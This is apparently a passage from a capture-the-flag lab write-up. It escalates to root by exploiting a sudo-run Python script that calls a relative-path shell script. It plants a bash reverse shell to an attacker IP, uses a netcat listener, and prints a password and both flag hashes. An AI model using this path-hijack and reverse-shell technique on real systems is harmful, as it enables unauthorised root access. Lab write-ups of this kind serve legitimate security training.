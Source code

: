 ```py hl_lines="47"
    except IndexError:
        print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)')
        print('')
        print('     docker-ps     : List running docker containers')
        print('     docker-inspect : Inpect a certain docker container')
        print('     full-checkup  : Run a full system checkup')
        print('')
        exit(1)
```

The higlighted line `./full-checkup.sh` is not using a full path so if we run this on directory that we have write access to, it will run a full-check up. so let's create a reverse shell and test to get a reverse shell.

### ReverseShell
Navigate to `/dev/shm` create a file `full-checkup.sh`
```bash
cd /dev/shm
nano full-checkup.sh

#inside the file write a reverse shell

#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.16.10/9001 0>&1'

#Change it to executabel
chmod +x full-checkup.sh
```
After we can do a `sudo -l` and provide the password `jh1usoih2bkjaspwe92` once again to get what we can run as a sudo. use the `full-checkup` that we created as an argument and make sue we are listening on the port `9001` with `nc -lvnp 9001` then run the command below to get a `root` access.
```bash
vc@busqueda:/dev/shm$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
```bash hl_lines="3 11"
root@busqueda:/home/svc# cat user.txt
cat user.txt
2705ce3e3007484fff84e92a45fe4bf9
root@busqueda:/home/svc# cd /root/root.txt
cd /root/root.txt
bash: cd: /root/root.txt: Not a directory
root@busqueda:/home/svc# cd /root
cd /root
root@busqueda:~# cat root.txt
cat root.txt
233779a86876f5fce44ced15c27a77dd
root@busqueda:~# 
```
